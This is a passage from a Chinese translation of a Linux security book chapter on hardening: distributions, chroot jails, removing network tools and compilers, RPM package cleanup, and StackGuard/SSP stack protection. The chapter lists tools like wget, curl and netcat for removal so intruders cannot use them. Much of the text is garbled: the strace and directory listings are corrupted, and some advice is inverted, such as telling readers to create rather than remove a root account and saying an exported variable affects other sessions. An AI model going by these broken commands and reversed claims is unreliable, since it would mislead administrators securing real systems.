也许是最流行的发行版，Red Hat 通过提供易于使用的产品以及广泛的商业支持主了北美市场。它对图形界面（GUI）非常重视，并提供了一系列应用程序用于配置桌面、网络和防火墙等系统各个方面的过程。由于这种特性，Red Hat 赢得了某种“新手”发行版的声誉——这是一种不公平的贬低，因为它和任何其他发行版一样强大。我们对 Red Hat Linux 的主要批评是它默认启用了许多服务，要求管理员在最初多花一点精力来加固系统。

随着 Red Hat 作为免费发行版的终结，其继任者 Fedora 备受期待。Fedora 的早期版本表明它本质上是换了名字的 Red Hat Linux，并且看起来将与 Red Hat 平分人气。Fedora 的一个显著特征是它是第一个预装但禁用了 `SELinux`（下章介绍）的主流发行版。

### SuSE® (`http://www.suse.de`)

当 Red Hat 主导北美市场时，SuSE（一种德国发行版，现归 Novell™ 所有）已被证明是欧洲市场的领导者之一。它与 Red Hat 有许多相似之处：注重易用性，并拥有一个令人印象深刻的管理/配置工具 `yast`，它可以完成从配置网卡到自动下载并安装软件的所有工作。

SuSE 附带了一个名为 `harden_suse` 的工具，该工具提供了一种快速加固系统性的方法（但不应掉入认为这是任何接近完整解决方案的陷阱）。该工具提供的加固操作包括：

### Linux 网络安全

- 关闭除 `SSH` 和防火墙之外的大多数网络服务，并使用顶层封装（`topwrappers`）仅允许来自本地（`localhost`）的访问
- 紧固 `SSH` 服务器配置，以禁用潜在的不安全选项
- 移除未知的 `SUID` 文件
- 强制执行密码额外的限制（最大存储期、最小长度）
- 紧固文件权限

### Slack® (`http://www.slack.org`)

Slack 是最古老的发行版之一，也被许多人认为是最类 UNIX 风格的发行版。它采用了截然不同的不加修饰的方法，这对于喜欢掌握控制权的管理员来说是理想的。Slack 的另一个值得关注的特点在于，它是少数青睐 BSD 风格启动脚本而非更常见的（至少在 Linux 上是）System V 方案的 Linux 发行版之一，对后者的支持主要是为了兼容性而提供的。

人们常说：“要学习 Red Hat 就是在学习 Red 色；学习 Slack 就是在学习 Linux”，这句话有很大根据的。由于缺乏自动系统配置工具，Slack 迫使用用户自己去探索系统并编辑配置文件，而不是依赖 GUI 工具。虽然这可能导致某些用户面临陡峭的学习曲线，但这确实提供了一种真实的控制感。

### Gentoo™ (`http://www.gentoo.org`)

尽管 Gentoo 是一个相对较新的发行版，但它迅速在资深用户和新用户之间流行起来。这种受欢迎的程度无疑归功于它的软件包系统 `Portage`，它使得通过一个命令从源代码下载并安装应用程序成为可能。尽管如此简单，`Portage` 仍然能够通过让经验更丰富的用户感到满意，赋予了他们配置编译器标志等方面的能力。

Gentoo 对源代码而非二进制文件的偏好导致了系统非常快速，并针对其运行的机器进行了深度优化。遗憾的是，缺点是增加了安装时间：诸如 `KDE` 或 `GNOME` 这样的包在普通机器上编译可能需要一整天的大部分时间，而从头安装 Gentoo 的整个过程可能需要两到三天。好消息是，所需的用户干预非常少，而且考虑到最终结果，这绝对是一个值得付出的代价。

### 系统加固 293


Gentoo 团队还维护着名为 `Hardened Gentoo` 的子项目，该项目致力于将 `SELinux`、`RSBAC` 和 `PaX/Grsecurity` 等项目（我们稍后将讨论所有这些）集成到发行版中。

## Debian (http://www.debian.org)

Debian 面向经验丰富的 Linux 用户，它缺乏其他发行版的一些美观之处（例如，更倾向于基于文本的安装程序），但其卓越的稳定性声誉完全弥补了这一点。尽管这种稳定性是以操作系统不够尖端为代价的，但许多管理员认为这是一个可以接受的折中方案。Debian 的另一个流行特性是它的软件包系统 `Dpkg`，它允许用户毫不力地获取和安装二进制文件。由于 Debian 软件包由一个中央小组维护，它们往往具有良好的集成性，极少彼此之间产生冲突。

## Mandrake™ (http://www.linux-mandrake.com)

Mandrake 通过强调创建强大的 GUI 赢得了最易用发行版之一的声誉。尽管这让它在家庭桌面用户（Mandrake 的目标受众）中拥有了庞大的粉丝群，但在没有安装 `X Windows` 的服务器上运行时，GUI 几乎没有用处。Mandrake 还倾向于向用户隐藏系统的内部运行机制。简而言之，它对于经验较少的家庭用户非常优秀，但不特别适用于服务器环境。

# 专用发行版

Linux 存在针对各种任务的专用发行版，但我们的重点是针对服务器市场的那些（这通常意味着对安全更高的关注）。这些安全发行版提供的多数功能都是开源的，并且可以同样轻松安装在任何其他版本的 Linux 上——你（在大多数情况下）不会因为其提供的功能而被绑定到特定的发行版。

## Openwall Linux (http://www.openwall.com)

Openwall Linux 并没有重点放在新技术上（正如漏洞本身可能是新的来源），它专注于通过安全的默认配置和主动性的代码审查来加固现有应用程序。

# Linux 网络安全

正如我们在第 2 章所看到的，不安全的服务是攻击者的常见点，允许他们以运行服务的用户权限在系统中执行命令。在许多情况下，这会导致攻击者获得 `root` 权限。

## SmoothWall Express® (http://www.smoothwall.org)

面向那些希望快速安装防火墙/路由器且不需要 Linux 知识的新用户，SmoothWall Express 是 Debian 的一个加固版本。系统的管理通过 Web 界面进行，且不需要预先的 Linux 知识。

## Adamantix (http://www.adamantix.org)

曾名为 `Trusted Debian`（由于商标问题更改了名称），Adamantix 本质上是 Debian 的加固版本，将 `RSBAC`（基于规则的访问控制）深度集成到系统中。其他功能包括通过 `PaX` 进行缓冲区溢出保护、磁盘分区加密以及内置病毒扫描。

## 8.2 chroot 环境

理想情况下，服务应该在沙箱环境中运行，限制它们可以的操作以及与系统其他部分的交互；这正是 `chroot` 所提供的。

正如其名所示，`chroot` 了进程对根目录（通常为 `/`）的视角；这是进程无法访问根之外任何区域的最高层级。本节涵盖了 `chroot` 监狱的理论；在第 10 章，我们将涵盖 `Apache` 和 `BIND` 等常用服务的实用方面。

`chroot` 监狱最常见的用途之一是匿名 FTP 服务器。允许匿名用户远程访问整个文件系统是不可思议的；相反，你希望将其限制在它的特定部分——最常见的 `/var/ftp/`。FTP 通过在匿名用户登录后立即执行 `chroot()` 系统调用来实现这一点，随后通过 `chdir()` 将其放入新定义的根。

## 系统加固 295

图 8.1 显示了典型 FTP 服务器上的文件系统部分，其中阴影区域代表匿名用户在机器上的范围。对于他来说，`/var/ftp` 看起来就像 `/`，而 `/var/ftp/bin` 看起来就像 `/bin`。



**图 8.1** 匿名 FTP 服务器文件系统的横截面。

## 监狱构建

`chroot` 监狱的一个重要后果是，被禁进程所需的任何文件（无论是普通文件还是设备）必须存在于监狱内部。参考之前的 FTP 示例，我们看到标准文件的一部分（非常小的一部分）被镜像到监狱中，包含了 `bin`、`lib` 和等 目录：

## 296 Linux 网络安全

```
# ls -1 /var/ftp/bin
total 364
-r--      1 root root       31 May  6 2003 bin.md5
-rwxr-xr-x 2 root root       19016 Feb 27 2002 compress
-rwxr-xr-X 2 root root.      64705 Feb 28 2002 cpio
-rwxr-xr-X 4 root root       63555 Mar 13 2002 gzip
-rwxr-xr-X 2 root root       46888 Jan 19 2003 ls
-rwxr-xr-X 2 root root     155560 Sep 10 2002 tar
lrwxrwxrw 1 root root             4 Jun 15 2003 zcat -> gzip
```

```
# ls -1 /var/ftp/lib
total 1484
-rwxr-xr-x 2 root root       89547 Mar  5 2003 ld-2.2.5.so
lrwxrwxrw 1 root root              11 Jun 15 2003 ld-linux.so--> id-2.2.5.so
-rwxr-xr-x 2 root root     126048 Mar  5 2003 libc-2.2.5.so
lrwxrwxrw 1 root root              13 Jun 15 2003 libdoc.so.6 -> libc-2.2.5.so
-rwxr-xr-x 2 root root       89424 Mar  5 2003 libns1-2.2.5.so
lrwxrwxrw 1 root root             15 Jun 15 2003 libns1.so.1 -> libns1-2.2.5.so
-rwxr-xr-x 2 root root       45415 Mar  5 2003 libns_files-2.2.5.so
lrwxrwxrw 1 root root             21 Jun 15 2003 libns_files.so.2 -> libns_files-2.2.5.so
-r--      1 root root             260 May  5 2003 libs.md5
lrwxrwxrw 1 root root             19 Jun 15 2003 libtermcap.so -2 -> libtermcap.so
# ls -1 /var/ftp/etc
total 12
-r--r--r-- 1 root root       53 Aug 22 2001 group
-rwxr-r--r-- 1 root root       409 May  5 2003 ld.so.cache
-rwxr-r--r-- 1 root root               0 May  5 2003 ld.so.conf
-r--r--r-- 1 root root               79 Aug 22 2001 passwd
```

### 发现库依赖

创建这个精简文件系统（`minifiles system`）简单；困难的部分在于确定需要哪些文件。我们将介绍的发现依赖的第一种方法是 `ldd` 命令，它显示给定文件的共享库依赖项：

```
$ ldd /bin/ls
librt.so.1 => /lib/librt.so.1 (0x40029000)
libc.so.6 => /lib/libc.so.6 (0x4003c000)
libthread.so.0 => /lib/libthread.so.0 (0x40172000)
/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

从此可以看出，`ls` 命令在监狱（`jail`）中运行需要这四个库的存在。

### Strace

当然，库并不是进程可能需要访问的所有文件，这使得 `ldd` 的用途有限。确定所有依赖项的最有用方法之一是 `strace` 工具，它会列出进程执行的系统调用，因此包含了所有的文件操作。

要使用 `strace`，只需将要监控的应用程序名称作为参数执行它；`strace` 将显示该应用程序执行的所有系统调用，直到执行自然结束，或者通过 `Ctrl-D` 停止它：


```
$ strace /usr/bin/id
execve("/usr/bin/id", ["/usr/bin/id"], ...) = 0
brk(0) = 804c4c8
open("/etc/ld.so.preload", O_RDONLY) = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY) = 3
fstat6(3, {st_mode=S_IFREG|0644, st_size=76061, ...}) = 0
old_map(NULL, 70661, PROT_READ, MAP_PRIVATE, 3, 0) = 0x40160000
close(3) = 0
open("/lib/libc.so.6", O_RDONLY) = 3
read(3, "\x17\x46\x71\x01\x00\x01\x00\x03\x03\x01\x00\x00\x30\x04") = 1024
fstat6(3, {st_mode=S_IFREG|0644, st_size=145807, ...}) = 0
old_map(NULL, 126836, PROT_READ, PROT_EXEC, 3, 0) = 0x40029000
mprotect(0x401500, 27748, PROT_NONE)
old_map(0x401500, 20480, PROT_READ, PROT_WRITE, MAP_FIXED, 3, 0x0) = 0x4002000
old_map(0x401500, 7268, PROT_READ, PROT_WRITE, MAP_ANONYUS, -1, 0) = 0x4015d00
close(3) = 0
old_map(NULL, 4096, PROT_READ, PROT_WRITE, MAP_PRIVATE, -1, 0) = 0x401f00
munmap(0x401600, 70661) = 0
brk(0) = 804c4c8
brk(0x400d48) = 0x400d48
brk(0) = 0x400e00
uid(32) = 1000
gid(32) = 1000
egid(32) = 100
fstat6(1, {st_mode=S_IFCHR|0700, st_dev=makedev(136), ...}) = 0
old_map(NULL, PROT_READ, PROT_WRITE, MAP_ANONYUS, -1, 0) = 0x4001000
socket(PF_UNIX, SOCK_STREAM, 0) = 3
connect(3, {sa_family=AF_UNIX, path="/var/run/.socket"}, 110) = -ENOENT (No file or directory)
close(3) = 0
open("/etc/nswitch.conf", O_RDONLY) = 3
fstat6(3, {st_mode=S_IFREG|0644, st_size=103, ...}) = 0
old_map(NULL, PROT_READ, PROT_WRITE, MAP_ANONYUS, -1, 0) = 0x4001700
read(3, "\n# /etc/switch.conf\n#...", 4096) = 103
read(3, "#...") = 6
close(3) = 0
munmap(0x4001700, 4096) = 0
open("/etc/ld.so.cache", O_RDONLY) = 3
fstat6(3, {st_mode=S_IFREG|0644, st_size=70661, ...}) = 0
old_map(NULL, 70661, PROT_READ, MAP_PRIVATE, 3, 0) = 0x401600
open("/lib/ns1.so.2", O_RDONLY) = 3
read(3, "\x77ELF\x1f\x01\x01\x00\x00\x00\x03\x03\x01\x00...", 1024) = 1024
fstat6(3, {st_mode=S_IFREG|0755, st_size=49707, ...}) = 0
old_map(NULL, 84928, PROT_READ, PROT_EXEC, MAP_PRIVATE, 3, 0) = 0x4017300
mprotect(0x4018500, 11200, PROT_NONE) = 0
old_map(0x4018500, 4096, PROT_READ, PROT_WRITE, MAP_FIXED, 3, 0x0) = 0x4018000
old_map(0x4018600, 7104, PROT_READ, PROT_WRITE, MAP_ANONYUS, -1, 0) = 0x4018600
close(3) = 0
```

(Continuing with `strace` output)

```
exit_group(0) = 0
close(3) = 0
munmap(0x401600, 70661) = 0
```

## 300 Linux 网络安全

```
close(3)                                = 0
munmap(0x04002300, 4096)                     = 0
open("/etc/group", O_RDONLY)                 = 3
fcntl164(3, F_GETFD)                            = 0
fcntl164(3, F_SETFD, FD_CLOEXEC)               = 0
fstat64(3, {st_mode=S_IFREG|0644, st_size=485, ...}) = 0
old_map(NULL, PROT_READ, PROT_WRITE, MAP_PRIVATE|MAP_ANONYUS, -1, 0) = 0x4002300
lseek(3, 0, [0], SEEK_CUR) = 0
read(3, "root:0:0::root/bin/bash...", 4096) = 485
close(3) = 0
munmap(0x40023000, 4096) = 0
socket(PF_UNIX, SOCK_STREAM, 0) = 3
connect(3, {sa_family=AF_UNIX, path="/var/run/.socket"}, 110) = -ENOENT (No file or directory)
close(3) = 0
open("/etc/group", O_RDONLY) = 3
fcntl164(3, F_GETFD) = 0
fcntl164(3, F_SETFD, FD_CLOEXEC) = 0
fstat64(3, {st_mode=S_IFREG|0644, st_size=485, ...}) = 0
old_map(NULL, PROT_READ, PROT_WRITE, MAP_PRIVATE|MAP_ANONYUS, -1, 0) = 0x4002300
lseek(3, 0, [0], SEEK_CUR) = 0
read(3, "root::0:0bin:root,bin,da...", 4096) = 485
close(3) = 0
munmap(0x40023000, 4096) = 0
getgroups(32,0) = 2
getgroups(32, 0x0204d90) = 2
open("/etc/group", O_RDONLY) = 3
fcntl164(3, F_GETFD) = 0
fcntl164(3, F_SETFD, FD_CLOEXEC) = 0
fstat64(3, {st_mode=S_IFREG|0644, st_size=485, ...}) = 0
old_map(NULL, PROT_READ, PROT_WRITE, MAP_PRIVATE|MAP_ANONYUS, -1, 0) = 0x4002300
lseek(3, 0, [0], SEEK_CUR) = 0
read(3, "root:rootbin:root,bin,da...", 4096) = 485
```

## 逃离 `chroot` 监狱

不幸的是，Linux 的 `chroot` 實作並不十分安全（與 FreeBSD 和 OpenBSD 上的 BSD jail 系統相比）。特別是，`chroot` 從來不是設計用於監禁以 `root` 身份運行的程序，而具有 `root` 權限的程序可以輕易通過一個大的逃逸

# 系统加固 301

公开技术的数量。在某些方面，这是一种悖论，因为以 `root` 身份运行的进程特别容易受到攻击。


如果你决定在 root 监狱牢（root jails）中运行非 root 服务，那么防止入侵者在监狱内部获取 root 权限是你的首要任务，因为这会降低他们逃逸的能力。实现这一目标的方法其实非常简单，只需创建一个 root 级别的账户即可。没有 root 用户账户，攻击者就无法接管该账户提供的身份或权限，也无法利用 `SUID root` 文件。

危险可能在于在监狱牢内部运行不安全或配置不当的服务，并误以为地认为系统的其他部分是不可触碰的。这并不是一个安全的假设，特别是对于以 root 身份运行的进程。尽管有这些缺点，但对非 root 服务进行 `chroot` 处理通常是一个好主意；而且——正如你在下一章中探索 `Gsecurity` 时将看到的——目前有许多方法可以加强 Linux root 监狱牢的安全性。

# 8.3 精简 Linux

无论你使用哪种发行版，在安装完成后通常都有很大的加固空间。在本书的早些章节，我们查看了 `Nessus` 和 `Nmap` 等工具，用于检测可能允许攻击者进入系统的服务，并涵盖了识别和禁用这些服务的流程。你可能觉得有理由认为你的网络没有容易切入点（这始终是一个危险的假设），但在本节中，我们将考虑一种最坏的情况，即入侵者已经访问了系统（无论是以 root 还是非特权用户的身份），并试图巩固他的权力。这还涉及复制 `rootkits` 和其他工具（源代码或或预编译二进制文件形式）以隐藏其行踪、便于重新进入系统，并可能对其他系统发起攻击。

## 不必要的二进制文件

阻碍入侵者最简单的方法之一是移除不必要的系统二进制文件，迫使他上传自己的文件或从源代码编译：这两种可能性我们也可以尝试防止其发生。在典型的 Linux 服务器上，有很多未使用的工具，如果攻击者进入了系统，这些工具对他可能有用。让我们来看一些最重要的工具。

## 网络实用程序

我们尝试限制的第一类工具允许攻击者创建到远程主机的连接。Linux 拥有大量的此类工具，虽然它们对管理员有用，但它们在系统（特别是服务器）上的存在很少是必需的。它们包括：

- `wget`: 一个用于通过 HTTP/HTTPS 和 FTP 获取数据的非交互式工具。
- `lynx`: 同时支持 HTTP/HTTPS 和 FTP 的文本浏览器。
- `curl`: 一个类似 `wget` 的工具，也支持 Telnet 和 gopher 等协议。
- `ssh`: SSH 客户端。该二进制文件的存在对任何可能运行的 SSH 服务器都没有影响。
- `scp`: 使用 SSH 协议进行安全文件传输。
- `sftp`: FTP 的安全替代方案。
- `netcat` (`nc`): 被称为 TCP/IP 的瑞士军刀，`netcat`（通常名为 `nc` 存在）是一个用于跨网络连接进行读写操作工具。它的功能极其丰富，绝对不应让入侵者能够访问。
- `ftp`: 命令行 FTP 客户端。
- `ncftp`: 一个强大的 FTP 客户端。
- `lftp`: 另一个流行的 FTP 客户端。
- `telnet`: Linux 命令行 Telnet 客户端。
- `brix`: 可能是最流行的三个命令行 IRC 客户端，它们在服务器上没有立足之地，而且从初就不应该安装。IRC 协议支持文件传输，因此这些客户端需要移除。
- `ping`: 虽然对诊断目的非常 useful，但 `ping` 也可以用作相当粗暴的 DoS 工具。

## 编译器和解释器

尽管了上述措施，我们仍然无法确定攻击者不会下载代码或直接在文本编辑器中创建代码；因此，我们应该尝试限制对 `gcc` 等编译器的访问。这在大多数生产服务器上似乎是一个相当激进且可能非常不便的，因为在初始安装之后，通常很少进行编译。此外，许多格式（如 `RPM`，红帽软件包管理器和 Slackware 包）本身使用预编译二进制文件，因此你不需要编译器来安装这些格式的包。需要考虑移除的主要应用程序有：

- `gcc`: GNU C 编译器。
- `g++`: GNU C++ 编译器。
- `g77`: GNU Fortran 编译器。
- `as`/`gas`/`nasm`: Linux 上最流行的汇编器（汇编语言编译器）。
- `gdb`: GNU C/C++/C++ 调试器。攻击者可以使用它来寻找应用程序中可能的漏洞。
- `Perl`: 尽管许多应用程序在某些功能方面需要 `Perl`，但你可以没有它生存，正如 FreeBSD 做出极具争议的决定从其基础安装中移除 `Perl` 解释器时证明的那样。不过，如果你删除了 `Perl`，要准备好花时间追踪依赖关系。
- `Tcl`/`tk`: 与 `Perl` 一样，如果你决定从系统中移除 `Tcl` 和 `Tk`，将需要谨慎，因为某些应用程序依赖于它们。

## 其他工具

下一个逻辑步骤是移除系统中的所有文本编辑器，试图防止入侵者修改系统配置文件，但事实证明这相当不切实际。除了 `vi`、`nano`、`emacs` 和 `ed` 等著名的编辑器外，破解者还可以使用 `sed` 或 `echo` 等许多其他方法来修改文件内容。遗憾的是，后许多非交互式编辑器被其他应用程序使用，移除它们是不可行的。

## 将系统实用程序放置在 CD-ROM 上

解决完全移除系统工具带来的不便（在某些情况下是不现实的）的一种有效变通方法将其放置在 CD-ROM 或其他可移动介质上；当执行需要这些工具的管理任务时，插入并挂载介质（绝不要让它处于未挂载状态）。你还需要调整 `PATH` 环境变量以包含该可移动介质：

```bash
mount /dev/cdrom /mnt/cdrom
echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/usr:/bin:/bin

export PATH="/mnt/cdrom:$PATH"
echo $PATH
/mnt/cdrom:/usr/local/sbin:/usr/local/bin:/sbin:/usr:/bin:/bin
```

## 安装期间选择应用程序

各种 Linux 发行的安装程序差异巨大：有些是基于文本的，针对特殊需求的高级用户；而另一些是图形化的具有许多简化安装过程的功能。然而，所有安装程序的共同点是它们允许对安装的包进行控制。许多提供了工作站或服务器的标准选择。如图 8.2 所示的 Fedora 安装程序就是一个例子。

你可能会发现标准的服务器安装并不完全符合你的需求并需要进一步配置；因此，你可能会发现从自定义安装开始更简单。

如图 8.3 所示，在选择了初始安装类型后，你可以选择更详细的包。在这个阶段仔细选择包，而不是盲目接受默认值，可以节省大量的安装后工作。

大多数安装程序都具有某种依赖检查功能：选择安装应用程序通常会导致安装程序自动选择任何依赖项；同样地，尝试取消选择被其他包依赖的包通常会生成警告。通过这种方式，你应该能够尝试移除一个不必要的应用程序，而不用担心损坏那些必需的包。

### 安装后包管理

尽管我们在在本节早些时候讨论了可能不必要的应用程序，但没有讨论如何移除它们；明显的选择是使用

# Linux 网络安全

命令，但这种做法存在在系统上留下陈旧库的风险，而且通常有更整洁的方法。大多数 Linux 发行版提供某种形式的包系统（例如 `RPM`）。熟悉这些系统提供的工具绝对是值得的，这也是一种安装应用程序的简便方法，大多数系统还提供了一种删除和恢复当前已安装包的方法。

最著名的当然是红帽 `RPM`，它可以在许多 Linux 发行版中找到，而不仅仅是红帽/Fedora。当使用 `-qa` 参数调用它时，`rpm` 会列出所有已安装包的列表：

```
# rpm -qa
setup-2.5.25-1
bzip2-libs-1.0.2-8
e2fsprogs-1.32-6
glib-1.2.10-10
...
```

理解这些包中的每一个包的作用，或者判断它是否被需要，则是另一回事了。幸运的是，`RPM` 格式允许存储包的元数据，可以使用 `rpm -qi <package name>` 命令进行查看：

```
$ rpm -qi units-1.80-4
Name : units
(not relocatable)
Version : 1.80
Release : 4
24 Jan 2003 04 Apr 2004 23:49:13 IST
Install Date: Sun 04 Apr 2004 23:49:13 Build Host:
tweety.devel.redhat.com
Group : Applications/Engineering Source RPM:
units-1.80-4.src.rpm
Size : 232225 License: GPL
Signature : DSA/SHA1, Mon 22 Feb 2003 06:04:13 Key ID
219180cddb42a60e
Packager : Red Hat, Inc. <http://bugzilla.redhat.com/bugzilla>
Summary : 用于将数量从一个单位转换为另一个单位的工具。
Description:\Units 将数量从一个单位转换为另一个单位，或者告诉您完成单位转换需要执行哪种数学运算。Units 只能处理乘法比例的变化；它无法告诉你如何将摄氏度转换为华氏度，因为这在乘法转换之外还需要一个加法步骤。
```

在你编译出一份可以安全地移除的包列表后，可以使用 `rpm -e <package name>` 将它们删除。


# 8.4 内存保护

在第 2 章中，你已经看到 C 语言的缺陷如何为缓冲区溢出攻击提供可能，这通常会让黑客获得远程系统的 `shell` 访问权限。由于近年来记录的漏洞中约 50% 是基于缓冲区溢出的，安全领域有强烈的动力去解决这个问题 [Cowen00]；在本节中，我们将探索已经开发的一些最流行的方法。这里提出的解决方案没有一个是完美的，但它们在某种程度上都能对抗这一问题。

### StackGuard

StackGuard 始于 1998 年 [Cowen98][Wagle03]，是 Immunis 发行版的一部分，也可以单独下载。在写本文撰稿时，可用的最新版本是针对相当过时的 `GCC 2.96`（“红帽 GCC”，之所以这样命名是因为它是仅在红帽 7.x 中找到的非官方 `GCC` 发布）；尽管 2003 年 6 月宣布正在为 `GCC 3.x` 开发新版本的 `StackGuard`，但目前尚没有任何结果。鉴于此，我们不会涵盖 `StackGuard` 的安装和使用，但我们将观察它的设计，它已成为其他几个项目的基础。我们将回顾第 2 章关于缓冲区溢出的讨论，破坏栈包括溢出栈缓冲区以覆盖返回地址（`RET`）。`StackGuard` 的工作原理是在栈中返回地址之后直接插入一个金丝雀值（canary value），如图 8.4 所示。

在函数返回之前，会立即检查金丝雀值，现在任何覆盖返回地址的尝试都会导致存储在金丝雀中的值改变，这是检测返回地址任何更改的有效方法。

当然，这种方法依赖于攻击者无法用原始值覆盖金丝雀。`StackGuard` 提供了两种替代方法来防止这种情况：随机金丝雀（random canaries）和终止金丝雀（terminator canaries）。在一段时间内，这两种方法都可用；但最新版本仅支持终止金丝雀。

| 参数 |
| :--- |
| `RET` (返回地址) |
| 金丝雀值 (Canary Value) |
| `FP` (帧指针) |
| 局部变量 |
| 缓冲区 (Buffer) |

图 8.4 StackGuard 在栈中插入一个金丝雀值。

随机金丝雀包含一个 32 位的随机数（从 `/dev/urandom` 读取）；因为金丝雀值在每次调用函数时都会变化，攻击者正确猜中该值的概率极低。然而，拥有系统内存访问权的攻击者可以使用另一个漏洞直接读取系统内存部分，从而获取金丝雀值。这种场景只有在攻击者拥有非特权账户并尝试利用以 `root` 身份运行的守护进程时才会形成真正的威胁。即使如此，他仍必须找到一种读取进程所用内存的方法——这是一个艰巨的任务。

正如 C 程序员所知，`\0` 字符在内部用于表示字符串的结束；因此编写者必须确保他们的 shell 代码不包含此字符，否则其执行将提前结束。终止金丝雀利用这一事实，用四种不同的字符串终止符的混合物填充金丝雀：`\0` (NULL)、CR、LF 和 `-1`。如果攻击者试图覆盖返回地址，这些终止符将不再视为字符串的结束。

### MemGuard

StackGuard 还支持另一种保护模式，称为 MemGuard。MemGuard 只是将内存标记为只读，并捕获任何写入内存的尝试。这种方法虽然安全，但速度慢 1800 倍，因此在大规模部署中并不实际。

### Stack-Smashing Protector

正式名为 ProPolice 的栈破坏防护（SSP）是 IBM 开发的 GCC 补丁，它使用了 StackGuard 的技术。SSP 优于 StackGuard，在于几个关键改进。回顾图 8.2，StackGuard 将金丝雀放在返回地址之后；SSP 通过将金丝雀直接放在 `FP` 之后解决了这个问题，这样局部变量就不会在被检测的情况下溢出。

| 参数 |
| :--- |
| `RET` (返回地址) |
| `FP` (帧指针) |
| 金丝雀值 (Canary Value) |
| 缓冲区 (Buffer) |
| 局部变量 |

图 8.5 SSP 中的栈布局。

如果缓冲区溢出（记住栈是向上增长的），将立即触及金丝雀；栈的其他部分不会溢出。

### 安装

SSP 补丁从 `http://www.research.ibm.com/trl/projects/ssp/` 获取，在撰稿时，补丁适用于 `GCC` 版本 `2.95.3`、`3.3.2` 和 `3.4.2`。你还需要 `GCC` 编译器的源代码（确保它是适用于补丁的版本）。获取代码的镜像站点列表可用 `http://www.gnu.org/order/ftp.html`。

SSP 压缩包实际上包含两个补丁：`protector.dif` 允许通过编译器标志启用保护，而 `protectonly` 则默认启用保护。解压 SSP 和 GCC 压缩包，将 SSP 压缩包中的四个文件复制到新创建的 `gcc-x.x.x` 目录中，并使用以下命令应用补丁：

```
$ patch -p0 < protector.dif
```

或者，对于默认保护：

```
$ patch -p0 < protectonly.dif
```

接下来，编译 GCC。这比标准的 `./configure;make;make install` 要复杂一些，因为有大量的配置选项。先咨询位于 `INSTALL` 目录的文件。在系统中安装两个不同的 GCC 版本是完全允许——事实上这是推荐的方法——为了实现这一点，你可以使用 `-prefix` 。标准安装程序为：

```
$ mkdir obj
$ cd obj
$ ../configure -prefix=/usr/spp
$ make bootstrap-lean
$ make install prefix=/usr/spp
```

此程序将 SSP 安装到 `/usr/spp`；实际 `gcc` 二进制文件位于 `/usr/spp/bin`。

## 使用

与 StackGuard 一样，SSP 需要管理员向编译器传递特殊标志以启用保护（在这种情况下为 `-fstack-protector`）。虽然这看起来可能不方便，但解决方案其实简单。许多应用程序的 `Makefile` 包含一个可以编辑的 `CCFLAGS` 变量，但更简单的方法是在你的 shell 中设置 `CCFLAGS` 环境变量：存储在该变量中的任何数据都将被 `GCC` 视为编译器标志。假设你使用 `bash` shell，可以通过以下命令来实现，该命令添加了 `-fstack-protector` 标志，请注意不要删除变量中已设置的任何数据（通常情况下，它是空的）：

```bash
$ export CCFLAGS=$CCFLAGS:-fstack-protector
$ echo $CCFLAGS
- -fstack-protector
```

现在从此 shell 使用 GCC 编译的任何应用程序都将启用 SSP（栈保护器）。请注意，我们说是“从此 shell”——环境变量仅对当前登录会话有效：如果你在机器上开启了其他登录会话，新的 `CCFLAGS` 值将对它们生效。同样，注销会导致任何环境变量被销毁。为了获得更持久的解决方案，你可以考虑将 `CCFLAGS` 指令添加到你自己的 `/.bash_profile` 中，或者——为了更全局的方法——将其添加到 `/etc/profile`。

# 边界检查 (Bounds Checking)

边界检查是指检查数组索引是否在数组的有效范围内的过程（如你所见，C 语言没有提供内置功能；除非程序员采取措施，否则可能会用比分配空间容纳的数据来溢出数组），这是一种自 20 世纪 60 年代以来一直存在的技术（作为帮助程序员追踪错误的辅助工具）。近年来，边界检查已发展成为一种检测可能的缓冲区溢出尝试的方法。

# Jones/Kelly 边界检查

该领域的第一项显著工作是来自伦敦帝国学院的 Richard Jones 和 Paul Kelly 在 1995 年完成的(5)。之前提供边界检查的尝试涉及更改指针的内部表示方式，使其同时包含所指对象的上界和下限；然而，这引入了严重的不兼容性，因为对于使用此类指针编译的程序，所使用的每个库都必须提供特殊版本。

在 Jones/Kelly 方法中，从每个指针表达式中派生出一个基指针（base pointer），通过检查此基指针的属性，你可以判断该指针表达式是否有效。为了实现这一点，会在运行时创建一个对象表，其中包含所有对象的基地址和大小。这种方法的优点是可以阻止所有的缓冲区溢出攻击，但也会导致显著的性能影响——取决于应用程序的性质（更准确地说，取决于指针运算的使用程度），速度下降可能高达 30 倍。承认的是，这是最坏的情况，即使在有利条件下，速度下降仍可能高达 10 倍。

# CRED

Jones/Kelly 方法最大的缺点不是它的性能代价（可以通过仅对特定高风险应用应用该方法来部分抵消），而是与某些应用程序不兼容。Jones 和 Kelly 假设任何越界指针都是错误，但指针表达式临时给指针赋值越界值，然后在后续表达式将其带回范围并不常见的。测试表明，高达 60% 的常用应用程序可能无法配合 Jones/Kelly 边界检查。


